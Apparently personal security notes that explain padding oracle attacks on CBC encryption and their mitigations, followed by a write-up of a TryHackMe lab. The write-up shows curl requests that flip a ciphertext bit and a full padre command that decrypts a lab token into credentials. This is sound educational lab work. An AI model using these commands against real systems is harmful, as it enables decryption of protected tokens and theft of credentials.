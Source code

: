 
# Overview
>[!INFO]
>- Padding oracle attacks are a type of cryptographic attack that exploits the way certain cryptographic systems handle padding in block ciphers. These attacks target systems that use symmetric-key cryptography and block ciphers by manipulating the padding used in encrypted messages, allowing attackers to gain information about the plaintext and potentially decrypt it without needing to break the encryption key.
>
>**Must Know :** 
>1. Padding oracle attacks take advantage of error messages or timing differences that occur when the padding of a decrypted message is validated, allowing attackers to deduce information about the plain-text.
>2. These attacks are particularly effective against systems that use Cipher Block Chaining (CBC) mode, where incorrect padding leads to different error responses from the server.
>3. To mitigate padding oracle attacks, developers can implement constant-time checks or avoid revealing specific error messages that can leak information about the decryption process.
>4. Padding oracle attacks can potentially recover entire plaintext messages by making multiple requests to the server and analyzing its responses.
>5. Cryptographic protocols that fail to properly handle padding validation are at significant risk of being vulnerable to these types of attacks.
>- **POODLE** (Padding Oracle on Downgraded Legacy Encryption) is an example of a padding oracle attack (downgrading from TLS 1.0 to SSL 3.0) to decrypt communications between a server and a user.

## How does it work ?
- **Block Encryption and Padding**: To encrypt data, block cipher algorithms like AES or DES are often used. These algorithms encrypt data in fixed-size blocks (e.g., 16 bytes for AES). If the last block of data is not large enough, extra bytes are added to "pad" it to the required size. This process is known as "padding."
- **Decryption and Padding Verification**: When an application receives encrypted data, it first decrypts the data and then checks if the padding is correct (i.e., if the added padding bytes conform to a specific format).
- **Padding Oracle**: In a padding oracle attack, an attacker can send multiple modified versions of the encrypted data to the application and observe its response. If the application returns a specific error or message when the padding is incorrect, the attacker can infer information about the content of the encrypted data.
- **The Attack**: By gradually modifying the encrypted data and observing the application's responses, the attacker can deduce the contents of the original message. The attacker uses the application as an "oracle" that indicates whether their padding is correct or not. Over time, they can reconstruct the plaintext data without ever having access to the encryption key.
- **Recommendation**: Avoid using block cipher algorithms; instead, prefer authenticated encryption methods like AES-GCM or AES-CCM.

# Labs
https://github.com/flast101/padding-oracle-attack-explained

## New York Flankees - THM
https://tryhackme.com/r/room/thenewyorkflankees

### Encrypted payload analysis
```javascript
function stefanTest1002() {
    var xhr = new XMLHttpRequest();
    var url = "http://localhost/api/debug";
    // Submit the AES/CBC/PKCS payload to get an auth token
    // TODO: Finish logic to return token
    xhr.open("GET", url + "/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4", true);

    xhr.onreadystatechange = function () {
        if (xhr.readyState === 4 && xhr.status === 200) {
            console.log("Response: ", xhr.responseText);
        } else {
            console.error("Failed to send request.");
        }
    };
    xhr.send();
}
```

- Making the request :
```bash
curl 'http://10.10.99.229:8080/api/debug/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4'
Custom authentication success
```

- Changing 1 bit : 
```bash
curl 'http://10.10.99.229:8080/api/debug/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF5'
Decryption error
```

>So there's a padding error. We can perform a padding oracle attack to decrypt the payload !

### Decrypt the payload
#### Tool : padre
https://github.com/glebarez/padre

```bash
❯ padre -u 'http://10.10.134.72:8080/api/debug/$' -e lhex -p 64 '39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4'                                                                                                                                                                    
[i] padre is on duty
[i] using concurrency (http connections): 64
[+] successfully detected padding oracle
[+] detected block length: 16
[!] mode: decrypt
[1/1] stefan1197:ebb2B76@62#f??7cA6B76@6!@62#f6dacd2599\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f


# -u : url
# -e : encoding applied to binary data : here lowercase hex
# -p : number of parallel HTTP connections established to target server
```